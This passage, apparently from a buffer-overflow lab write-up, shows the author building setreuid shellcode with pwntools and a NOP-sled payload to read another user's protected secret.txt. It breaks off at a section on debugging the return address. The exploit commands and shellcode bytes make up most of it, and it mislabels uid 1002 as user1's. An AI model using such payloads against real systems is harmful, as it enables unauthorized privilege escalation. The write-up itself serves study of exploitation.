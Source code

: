 ```sh
-rw-rw-r-- 1 user1 user1  285 Sep  2  2019 buffer-overflow.c
-rw------- 1 user2 user2   22 Sep  2  2019 secret.txt
sh-4.2$ cat secret.txt
Detaching after fork from child process 3480.
cat: secret.txt: Permission denied
sh-4.2$ exit
[Inferior 1 (process 3468) exited with code 01]
```

still no `user2` permission, so we need to adjust our shellcode using `setuid(1002)` (which is user1's uid from `/etc/passwd`), when the shellcode pops, we want `setuid` at the top to make use `user2`.

:::note

look up & understand the difference between (real) UID and effective UID and how the shell treats things, except of course if you're trying to setuid(0) i.e. root, in which case you can only get your effective UID set. Because of this, what we need to basically `su` to user2 is `setruid()`

:::

### pwntools setreuid shellcode

install pwntools:

```sh
apt update -y
apt install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools --user
```

and then create shellcode with setreuid:

```sh
pwn shellcraft -f d amd64.linux.setreuid 1002
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

add this to the existing `/bin/sh` shellcode that was dropping us in before:

```sh
run $(python -c "print '\x90'*100 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
```

the payload is now 212 bytes, but we need to keep it at 158 bytes total (i.e. 152 offset + 6 return address).

### Debugging Return Address

I had 2, near-identical payloads except for the return address- which according to the "pick any address where the NOPs are" rule, the address I picked should have worked.

First payload is `l1ges` (the author of the write-up), second payload is mine.

